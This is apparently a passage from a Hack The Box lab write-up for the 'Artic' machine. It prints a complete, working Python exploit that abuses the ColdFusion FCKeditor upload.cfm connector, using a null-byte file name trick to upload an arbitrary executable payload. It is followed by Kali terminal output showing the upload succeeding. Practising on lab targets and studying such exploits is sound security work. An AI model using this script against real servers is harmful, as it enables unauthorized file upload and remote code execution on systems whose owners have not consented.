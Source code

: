 ```bash
Updated script.

```jsp

import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.exe>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.exe'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploits.exe%00", files={'newfile': ('exploit.txt', body, 'application/octet-stream')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploits.exe'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'

```


Trying it out!


```bash

┌──(kali㉿kali)-[~/HackTheBox/Artic/exploit]
└─$ python FileUpload.py 10.10.10.11 8500 Chimichurri.exe                       
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploits.exe
                                                                 

```
